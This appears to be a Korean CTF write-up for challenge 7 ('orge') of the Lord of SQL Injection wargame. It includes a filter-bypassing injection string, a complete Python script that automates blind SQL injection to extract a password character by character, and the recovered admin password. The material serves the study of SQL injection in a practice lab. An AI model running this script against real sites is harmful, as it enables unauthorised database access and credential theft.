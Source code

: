 ```yaml
---
title: LOS - 7번 orge
category: Lord of SQL Injection
---
```


# [07] orge

## 문제

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbQxKQf%2FbtrnlmsKa5t%2FkOxOU4EvB5DqdsYjWKBc90%2Fimg.png">

## 풀이
                     
천천히 살펴보면, 4번 문제와 6번 문제를 합쳐놓았다는 것을 알 수 있다.

→ 4번 Blind SQLi + 6번 or/and 필터링

<br> 

4번 문제를 풀 때 썼던 **Blind SQLi 자동화 코드**에

6번 문제를 풀 때 썼던 **or/and 필터링 우회 방법**을 적용시켜주면 될 것 같다.

<br>

따라서 자동화 코드의 파라미터 부분을 다음과 같이 수정해준다.

<br>

```
param=f"?{param_name}=' || id=\"admin\" %26%26 length({param_name})={num} %23"
```

1. or → ||

2. and → %26%26

<br>

```python
import requests

def check_length(url, cookie, param_name):
    head = {"PHPSESSID":f"{cookie}"}
    print("대상 문자열의 길이를 확인중입니다..")
    for num in range(0,30):
        param=f"?{param_name}=' || id=\"admin\" %26%26 length({param_name})={num} %23"
        my_url=url+param
        res=requests.get(my_url, cookies=head)
        if("Hello admin" in res.text):
            return num

def blind_sqli(url, cookie, param_name, length):
    head = {"PHPSESSID":f"{cookie}"}
    ans=""
    for len in range(1, length+1):
        print(f"{len}번째 문자에 대해 검색중입니다..")
        for ran in range(32,127):
            param=f"?{param_name}=' || id=\"admin\" %26%26 ascii(substr({param_name},{len},1))={ran} %23"
            my_url=url+param
            res=requests.get(my_url, cookies=head)
            if("Hello admin" in res.text):
                print(f"{len}번째 문자 → {chr(ran)}")
                ans+=chr(ran)
                break
    return ans

if __name__ == "__main__":
    print("💘 Blind 공격을 시작합니다")
    
    url=input("URL을 입력하세요:")
    cookie=input("cookie를 알려주세요:")
    param_name=input("파라미터의 이름을 알려주세요:")
    
    length=check_length(url, cookie, param_name)
    print(f"👏 {param_name}의 길이는 {length}입니다.")
    
    ans=blind_sqli(url, cookie, param_name, length)
    print(f"👏 {param_name}의 정체는 {ans}입니다!")
    
    exit
```

<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbFBWIL%2FbtrndGfEk8V%2FveTAKHtfAiuNDsNIMxDHhk%2Fimg.png">

Blind 공격 결과, admin의 pw는 `7b751aec` 임을 알 수 있다.

## 결과
                     
<img  src="https://img1.daumcdn.net/thumb/R1280x0/?scode=mtistory2&fname=https%3A%2F%2Fblog.kakaocdn.net%2Fdn%2FbvEs0U%2FbtrnlnZu1Od%2F8RZ9nKvoAsYBx7nWkpj9KK%2Fimg.png">
